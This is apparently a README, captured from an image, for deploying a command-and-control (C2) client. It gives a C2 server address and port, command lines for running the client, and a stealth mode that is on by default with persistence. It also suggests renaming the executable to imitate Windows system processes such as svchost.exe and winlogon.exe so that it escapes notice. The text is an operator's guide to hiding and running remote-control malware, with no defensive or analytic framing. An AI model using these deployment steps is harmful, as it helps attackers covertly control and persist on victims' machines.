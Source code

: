 # Production C2 Client Deployment 
 
Server: 192.168.1.41:4444 
Build Date: Wed 08/06/2025 17:45:31.76 
 
## Deployment Options: 
 
### Standard Deployment: 
c2_client.exe 
 
### Disguised Names: 
svchost.exe          # Windows service host 
system_update.exe    # System update utility 
winlogon.exe         # Windows logon process 
 
### Manual Server Override: 
c2_client.exe --server 192.168.1.41 --port 4444 
 
### Stealth Mode (Default in Release): 
c2_client.exe 
 
### Debug Mode (No Stealth/Persistence): 
c2_client.exe --no-stealth --no-persistence 
